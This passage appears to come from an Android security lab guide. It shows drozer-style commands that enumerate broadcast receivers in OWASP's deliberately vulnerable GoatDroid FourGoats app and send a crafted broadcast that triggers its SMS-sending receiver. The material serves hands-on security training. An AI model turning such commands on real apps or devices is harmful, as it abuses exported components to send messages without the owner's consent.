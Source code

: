 ![](.gitbook/assets/image-20240110165704512.png)

- Check Vulnerability in the [🧪 Practice Lab 7](#🧪 Practice Lab 7) and exploit it with the following commands

```bash
run app.broadcast.info –-package org.owasp.goatdroid.fourgoats

# An activity can be run with
run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver --extra string phoneNumber 5554 --extra string message "Hi there"
```
